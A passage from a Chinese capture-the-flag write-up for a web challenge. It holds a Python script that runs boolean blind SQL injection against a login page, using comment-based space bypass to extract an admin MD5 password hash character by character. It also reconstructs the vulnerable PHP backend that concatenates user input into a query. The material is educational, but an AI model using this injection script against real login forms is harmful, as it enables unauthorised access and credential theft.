 下面写一个脚本，遍历0-9a-f 32次得到password,发现是md5，拿去解密得到flag

#### py

```
# -*- coding: utf-8 -*-
import requests

url = "http://101.200.145.44/web6/auth.php"
strBox = '0123456789abcdef'
password = []
for index in range (1,33):
    print index,
    for i in strBox:
        username = "admin'/**/and/**/substring(password,"+str(index)+",1)='"+i
        data = {'username':username,'password':'admin'}
        r = requests.post(url,data=data)
        if r.text.find(u'ï»¿å¯ç éè') != -1:
            print i
            password.append(i)
            break
print ''.join(password)
```

#### 后台语句

最后猜解的后台语句如下，并且mysql应该设置了用户权限仅拥有select权限，或者每次访问都重置数据库

```
auth.php

$username = $_POST["username"];
$username = str_replace(' ', '', $username);
$password = $_POST["password"];
$sql = "select password from admin where username = '".$username."'";
$result = mysql_query($sql);
$rowcount = mysql_num_rows($result);
if $rowcount == 0{
  echo '用户名错误';
}else{
  while ($rowcount--){
    if ($username = 'admin' and $password = $result[$row]){
      echo '密码错误'
    }
  }
}
```

#### 方法改进

我们采用的方法的核心语句为

`select password from admin where username = 'admin' and substring(password, index, 1) = '0-9a-f'; `
